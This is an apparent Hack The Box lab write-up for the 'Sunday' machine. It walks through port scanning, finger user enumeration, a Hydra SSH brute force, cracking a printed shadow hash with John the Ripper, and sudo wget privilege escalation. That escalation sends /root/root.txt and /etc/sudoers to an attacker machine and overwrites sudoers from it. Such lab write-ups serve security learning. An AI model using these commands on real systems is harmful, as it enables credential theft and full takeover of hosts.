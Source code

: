 # Sunday HTB, IP address:10.10.10.76

# Initial Enumeration

**1.nmap -sC -sV 10.10.10.76**

![sunday1](https://user-images.githubusercontent.com/15195048/93906871-8fc9cf00-fcb1-11ea-9eb0-7640d87254b3.png)

**2. ./nmapAutomator.sh 10.10.10.76 Full**

![sunday2](https://user-images.githubusercontent.com/15195048/93906876-90fafc00-fcb1-11ea-9e94-2e2be9c0d159.png)

**Nmap full port scan:** 

**nmap -p- -oA full-noscripts 10.10.10.76  --max-retries 0**
79/tcp    open  finger
111/tcp   open  rpcbind
22022/tcp open  unknown
55029/tcp open  unknown

Running a specific port scan:
**nmap -p 79,111,22022,55029 -sV -oA full-scripts 10.10.10.7**

Results:
Port 22022: is running **SunSSH 1.3**

Port 55029: is running a service that nmap was not able to identify

------------------------------------------------------------------------------------------------------------------------
# Port Enumeration

## 1.Enumerating finger service
   Finger is a program you can use to find information about computer users. It usually lists the login name, the full name, and possibly other details about the user you are fingering. These details may include the office location and phone number (if known), login time, idle time, time mail was last read, and the user's plan and project files.

**finger @10.10.10.76**

![sunday3](https://user-images.githubusercontent.com/15195048/93906879-91939280-fcb1-11ea-9b88-6dcd9538d0dd.png)

**perl finger-user-enum.pl -U user.txt -t 10.10.10.76**
                                                     
![sunday4](https://user-images.githubusercontent.com/15195048/93906880-91939280-fcb1-11ea-833a-f870f54e68ad.png)
![sunday5](https://user-images.githubusercontent.com/15195048/93906882-922c2900-fcb1-11ea-948a-2ae941037bfd.png)


## 2. Port 22
Connecting on port 22
From the nmap automator script we found out that SSH service is running on port 22.

**ssh sunny@10.10.10.76 -p 22022**
  Unable to negotiate with 10.10.10.76 port 22022: no matching key exchange method found. Their offer: gss-group1-sha1-toWM5Slw5Ew8Mqkay+al2g==,diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1

**Notes:**
This particular error happens while the encrypted channel is being set up. If your system and the remote system don't share at least one cipher, there is no cipher to agree on and no encrypted channel is possible. Usually SSH servers will offer a small handful of different ciphers in order to cater to different clients

**ssh sunny@10.10.10.76 -p 22022 -oKexAlgorithms=diffie-hellman-group1-sha1**
OR
**ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -c 3des-cbc sunny@10.10.10.76**

I will brute force with several wordlists

**HYDRA**
**hydra -V -I -l sunny -P ‘/usr/share/wordlists/rockyou.txt’ 10.10.10.76 ssh -s 22022**

![sunday6](https://user-images.githubusercontent.com/15195048/93906884-922c2900-fcb1-11ea-9a7d-3b4e59f56751.png)


 Finally “sunday” seems to be the password.

## LATERAL MOVEMENT SUNNY → SAMMY
**ssh sunny@10.10.10.76**
I found a backup file in the following directory. 
It contains two files **agen22.backup** and **shadow.backup**. The former we don’t have access to, however, we can view the latter.

![sunday7](https://user-images.githubusercontent.com/15195048/93906888-92c4bf80-fcb1-11ea-94c8-6aa6c46daa28.png)

copy sammy's hash password to a hash.txt file
**sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::**

**JOHN THE RIPPER**

**john --wordlist=/usr/share/wordlists/rockyou.txt sammy-hash.txt**

![sunday8](https://user-images.githubusercontent.com/15195048/93906889-92c4bf80-fcb1-11ea-8593-511958897aa6.png)

------------------------------------------------------------------------------------------------------------------------------------------------------------
# Privilege Escalation

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sammy@sunday:~$ sudo -l
User sammy may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/wget
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

## A)GTFOBins wget

**First attempt: Gaining a nc shell on attacker machine**
 We can use the wget –post-file parameter to post the contents of root.txt. Let’s see if that works. We spin up a Netcat listener on port 80 on our attacker machine
 **sudo wget –post-file=/root/root.txt attacker machine**

![sunday9](https://user-images.githubusercontent.com/15195048/93906893-935d5600-fcb1-11ea-9b95-cf4dc963c827.png)

We can capture the flag that way, but let’s do something else with these elevated privileges to get a root shell on the box.
## B) Change sudoers file permissions and make sammy's rights ALL
 
 What if we post the /etc/sudoers file and make Sammy or Sunny execute anything as root? Let’s first see the contents of /etc/sudoers. 
**sudo wget –post-file=/etc/sudoers <attacker machine ip**

![sunday10](https://user-images.githubusercontent.com/15195048/93906895-93f5ec80-fcb1-11ea-83d9-865552fa5d99.png)

Copying the contents of /etc/sudoers into sudoers and changing the permissions of Sammy to ALL=(root) NOPASSWD: ALL as shown below.
Collecting this file and installing it as /etc/sudoers, since wget is running as root effectively.
**sudo wget -O /etc/sudoers http://<attcker_ip:8000/sudoers**
Now we can see that with just one command, Sammy becomes root and take complete control of the box.

# Disclaimer: I did not do the Privilege Escalation part because of SSH LAG.

 
